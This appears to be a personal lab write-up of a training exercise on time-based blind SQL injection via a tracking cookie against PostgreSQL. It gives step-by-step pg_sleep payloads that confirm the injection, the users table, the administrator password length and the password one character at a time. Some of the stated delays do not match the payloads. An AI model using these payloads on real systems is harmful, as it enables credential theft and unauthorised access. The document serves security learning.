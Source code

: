 Lab #13 - Blind SQL injection attack using time delays

Vulnerable parameter - Tracking Cookie

End Goals:

- Exploit time based Blind SQLi to output administrator password
- Login as administrator user

Analysis:

1. Confirm the parameter is vulnerable

   g31CW6mjktuq8Zkd' || pg_sleep(10)-- -> `10 sec delay` -> `postgresql database`

2. Confirm that the users table exists in database

   g31CW6mjktuq8Zkd' || (select case when(username='administrator') then pg_sleep(5) else pg_sleep(-1) end from users)-- -> `5 sec delay` -> `users table and user administrator exists`

3. Determine the length of password for the 'administrator'

   g31CW6mjktuq8Zkd' || (select case when(username='administrator' and LENGTH(password)>=1) then pg_sleep(3) else pg_sleep(-1) end from users)-- -> `5 sec delay` -> `password greater than 1 char` -> `password = 20 characters`

4. Determine the password for the 'administrator'

   g31CW6mjktuq8Zkd' || (select case when(username='administrator' and substring(password,1,1)='a') then pg_sleep(3) else pg_sleep(-1) end from users)-- `gives 5 sec delay if`**1st**`char is`**a**
